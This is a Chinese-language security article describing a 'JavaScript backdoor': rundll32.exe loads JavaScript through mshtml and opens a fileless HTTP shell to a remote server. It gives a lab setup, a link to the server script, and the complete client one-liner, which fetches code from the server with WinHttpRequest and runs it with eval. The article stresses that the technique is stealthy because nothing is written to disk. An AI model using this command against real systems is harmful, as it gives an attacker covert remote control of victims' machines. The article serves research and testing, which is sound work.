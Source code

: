 # JavaScript Backdoor

0x00 前言
=====

Casey Smith最近在Twitter分享了他的研究成果，执行一段JavaScript代码即可反弹一个Http Shell，很是奇妙，所以就对这个技术做了进一步研究。

![Alt text](http://drops.javaweb.org/uploads/images/9040c0c0ed76f2e19c03bb049db5540697fd7062.jpg)

0x01 简介
=====

![Alt text](http://drops.javaweb.org/uploads/images/dcc5875927c5c0326f6bd732b44556c729aabec3.jpg)

从截图我们可以看到该技术的使用方法，在cmd下利用rundll32.exe加载JavaScript代码，代码运行后会反弹一个Http Shell，而特别的地方在于当运行完cmd命令后，后台会一直存在进程rundll32.exe用来同Server持续连接，整个过程不需要写入文件，隐蔽性大大提高。

0x02 测试环境
=====

Server：

```
OS：Win7 x64
IP：192.168.174.131

```

Client：

```
OS：Win7 x86
IP：192.168.174.130

```

下载链接：  
[https://gist.github.com/subTee/f1603fa5c15d5f8825c0](https://gist.github.com/subTee/f1603fa5c15d5f8825c0)

0x03 实际测试
=====

**1、Server启动服务，监听端口**

需要将下载脚本中的IP修改为当前主机IP

管理员运行

**2、Client加载JavaScript指令**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.174.131/connect",false);h.Send();B=h.ResponseText;eval(B)

```
